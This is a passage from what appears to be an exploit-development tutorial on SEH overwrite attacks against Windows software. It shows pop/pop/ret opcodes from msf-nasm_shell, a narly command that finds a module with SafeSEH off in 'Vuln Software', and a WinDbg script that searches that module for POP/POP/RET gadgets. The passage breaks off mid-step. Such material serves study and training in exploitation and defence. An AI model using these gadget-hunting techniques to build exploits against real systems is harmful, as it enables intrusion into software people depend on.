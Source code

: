 


## 4. Search for P/P/R Sequence

P/P/R is `pop R32, pop R32, ret`:

```
$ msf-nasm_shell
nasm > pop eax
00000000 58 pop eax
nasm > pop ebx
00000000 5B pop ebx
nasm > pop ecx
00000000 59 pop ecx
nasm > pop edx
00000000 5A pop edx
nasm > pop esi
00000000 5E pop esi
nasm > pop edi
00000000 5F pop edi
nasm > pop ebp
00000000 5D pop ebp
nasm > ret
00000000 C3 ret
```

Locate a module with `/SafeSEH OFF` using [narly](https://code.google.com/archive/p/narly/):

```
0:012> load .narly
0:012> !nmod
10000000 10221000 libspp               /SafeSEH OFF                C:\Program Files\Vuln Software\bin\libspp.dll
```



### WinDbg Classic Script

{% code title="find_ppr.wds" %}
```
.block
{
    .for (r $t0 = 0x58; $t0 < 0x5F; r $t0 = $t0 + 0x01)
    {
        .for (r $t1 = 0x58; $t1 < 0x5F; r $t1 = $t1 + 0x01)
        {
            s-[1]b 10000000 10221000 $t0 $t1 c3
        }
    }
}
```
{% endcode %}

Search with a WinDbg Classic Script:
